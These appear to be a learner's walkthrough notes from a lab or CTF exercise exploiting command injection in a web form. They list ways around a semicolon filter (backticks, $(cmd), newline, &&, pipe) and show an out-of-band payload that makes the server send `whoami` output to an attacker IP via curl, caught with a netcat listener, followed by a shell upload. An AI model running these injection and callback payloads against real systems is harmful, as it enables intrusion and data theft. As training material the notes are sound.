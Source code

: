 ![[Pasted image 20250406155750.png]]
	- Trying: `localhost; whoami:` still works, but it should not as `localhostwww-data` is not a website
	![[Pasted image 20250406160755.png]]
	==- Maybe **`;` is `filtered`.** We can use `backtick` or `$(cmd)` or even `\n` for new command:==
		- `backticks`
		- `\n` => [[http://localhost\n curl http://172.19.0.1:9001/`whoami`]]
		- `$(cmd)` 
		- `&&`
		- `|`
		 ![[Pasted image 20250406160328.png]]

# Getting output by sending on address
---
```python
http://172.19.0.1:9001/`whoami` 
```
- This will try to reach our IP and try to get the output of `whoami` command i.e. `www-data`: [http://172.19.0.1:9001/www-data]
- `nc -lnvp 9001`
![[Pasted image 20250406161017.png]]
![[Pasted image 20250406161239.png]]


# Getting the shell
---
- Upload the shell and get the shell easily
- ![[Pasted image 20250406161911.png]]